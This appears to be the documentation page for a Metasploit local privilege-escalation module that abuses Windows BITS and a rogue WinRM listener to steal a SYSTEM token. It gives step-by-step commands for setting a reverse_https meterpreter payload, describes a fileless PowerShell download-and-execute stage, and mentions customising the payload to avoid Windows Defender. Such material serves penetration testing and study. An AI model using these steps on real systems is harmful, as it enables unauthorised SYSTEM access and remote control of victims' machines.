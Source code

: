 ## Vulnerable Application

All windows platforms except Windows servers.

More precisely, **the availability of port 5985 is a necessary and sufficient condition**.

This module exploits BITS behavior which tries to authenticate on local WinRM server (port 5985) even if this service is not running.
As this module runs a fake service on WinRM port to steal a SYSTEM token, this port must be available.
However, WinRM service is natively running on windows servers preventing to run this exploit successfully.

Nevertheless, if WinRM service is disabled by an admin, or just killed, the operating system becomes vulnerable.

## Verification Steps

1. get a meterpreter session which has either SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privilege.
1. Do: `use exploits/windows/local/bits_ntlm_token_impersonation`
1. Do: `set SESSION <previous meterpreter session>`
1. Do: `set PAYLOAD windows/meterpreter/reverse_https`
1. Do: `set LHOST <your ip>`
1. Do: `set LPORT <your port>`
1. Do: `exploit`
1. A new meterpreter session should pop.

## Options

SESSION &#8594; index of the previous meterpreter session in through of which the exploit will be run.

## Scenarios

Will be added later
    
## Description

This module exploits BITS behavior which tries to connect to the local Windows Remote Management server (WinRM) every times it starts.
The exploit dll (loaded through a previous unprivilegied meterpreter session) launches a fake WinRM server which listens
on port 5985 and triggers BITS.
When BITS starts, it tries to authenticate to the Rogue WinRM server, which allows to steal a SYSTEM token.
This token is then used to launch a new process as SYSTEM user.
In the case of this exploit, powershell.exe is launched as SYSTEM and it downloads/executes an evil powershell script on
a second local http server.
Thus, this exploit doesn't write any file on the disk.

this exploit has been written from decoder's proof of concept:
https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/
https://github.com/antonioCoco/RogueWinRM

This exploit has been successfully tested on :
- Windows 10 (10.0 Build 19041) 32 bits

## Warnings

- **SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privs are required.**
- **BITS must not be already running.**
- As this dll exploit runs 2 services on the target (Fake WinRM on port 5985 and HTTP on port 80),
a firewall popup may appear on target screen. Thus, this exploit is not completely silent.
- A powershell windows flashes on target screen
- Windows servers are not vulnerable because a genuine WinRM service is already running.
- Powershell payload may be flagged by Windows defender. You can customize powershell payload with "show advanced"
